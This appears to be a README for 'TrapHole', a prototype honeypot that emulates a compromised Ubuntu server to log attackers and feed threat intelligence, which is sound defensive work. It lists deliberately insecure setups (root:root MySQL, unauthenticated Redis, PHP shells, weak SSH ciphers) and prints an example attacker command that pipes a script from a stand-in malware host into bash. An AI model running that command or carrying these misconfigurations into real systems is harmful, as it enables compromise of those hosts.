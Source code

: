  **TrapHole**  (Prototype) **Next-Gen Deception Environment for Threat Intelligence**

**v1.0 | PROOT | MULTI-VECTOR TRAPS | THREAT INTEL API**

---

### 🔍 TL;DR

**TrapHole** is a high-interaction honeypot that emulates a compromised Ubuntu server inside a Proot container, featuring:

- **11+ vulnerable services** (SSH, MySQL, Redis, etc.) with realistic misconfigurations.  
- **Behavioral fingerprinting** of attackers (TTPs, tooling, motives).  
- **Auto-trapping** for malware drops, C2 callbacks, and lateral movement.  
- **Threat intel** (AbuseIPDB, GreyNoise, VirusTotal) + Slack/Email alerts.  

```bash
# Deploy in 3 commands
git clone https://github.com/yourusername/traphole.git && cd traphole  
sudo ./setup.sh  # Creates ~/traphole_env  
python3 traps/traphole_monitor.py --dashboard --geoip  
```

---

### 🕵️ Why TrapHole?

| Feature         | TrapHole           | Cowrie         | Dionaea         |
|------------------|--------------------|----------------|-----------------|
| **Realistic OS** | ✅ Ubuntu Proot    | ❌ Minimal shell | ❌ Service-only |
| **Multi-Vector** | ✅ 11+ services    | ❌ SSH-only     | ✅ Limited       |
| **Threat Intel** | ✅ API Integration | ❌ Manual       | ❌ None          |
| **Deception**    | ✅ Fake creds/files | ❌ Basic        | ❌ None          |

---

### 🧠 Architecture

```mermaid
graph TD  
    A[Attacker] --> B[TrapHole Proot Env]  
    B --> C{{Vulnerable Services}}  
    C --> D[SSH/MySQL/Redis Traps]  
    C --> E[Fake Documents/DBs]  
    B --> F[Monitor & Log]  
    F --> G[Threat Intel APIs]  
    F --> H[Real-Time Dashboard]  
    F --> I[Slack/Email Alerts]  
```

---

### 🛠️ Core Components

#### 1. **Traps**

- **SSH**: Weak ciphers (aes128-cbc), fake authorized_keys, bash history injection.  
- **MySQL**: root:root creds, exposed `LOAD_FILE()`.  
- **Web**: PHP shells, vulnerable wp-admin, fake `.env` files.  
- **Redis**: Unauthenticated, FLUSHALL allowed.  

#### 2. **Monitoring**

- `traphole_monitor.py`:  
    - Logs attacker commands, file changes, and network calls.  
    - Calculates **threat scores** (0-100) based on behavior.  
    - Enriches IPs with ASN/GeoIP/TOR data.  

#### 3. **Threat Intel**

```python
# Example: Auto-report attackers to AbuseIPDB  
if threat_score > 70:  
    submit_to_abuseipdb(ip, "TrapHole Honeypot Hit")  
```

---

### 💀 Attack Simulation

```bash
# Attacker's view (example)  
ssh -oCiphers=aes128-cbc admin@traphole  
Password: admin123  # Fake creds trigger logging  

# Inside the honeypot:  
cat /fake/credentials.txt  # Triggers file access alert  
curl http://malware.com/x.sh | bash  # Triggers malware download alert  
```

---

### 📊 Dashboard

**Key metrics**: Attack heatmap, top TTPs, threat scores over time.  

```bash
# Start dashboard (port 8080)  
python3 traps/traphole_monitor.py --dashboard  
```

---

### ⚡ Pro Tips

- **Cloud Deployment**:  
```bash
# DigitalOcean + Public IP = More Attackers  
apt-get install tmux && tmux new -s traphole  
./setup.sh --public  
```

- **Log Export**: Pipe logs to ELK or Splunk for analysis.  
- **Custom Traps**: Add new traps in `~/traphole_env/traps/custom/`.  

---

### ☠️ Disclaimer

**WARNING**: TrapHole contains real vulnerabilities. Isolate it from production networks.  
By using this tool, you agree that the authors are not responsible for any misuse.

---

### 📜 License

**GPL-3.0** - Share your trap improvements!

---

### 🚀 Contribute

- Add new services to `setup.sh`.  
- Improve the dashboard with D3.js.  
- Submit attack patterns to `traps/patterns.json`.  

---

#### *<p align="center"> Coded by <a href="https://github.com/yourusername">LIONMAD</a> </p>*
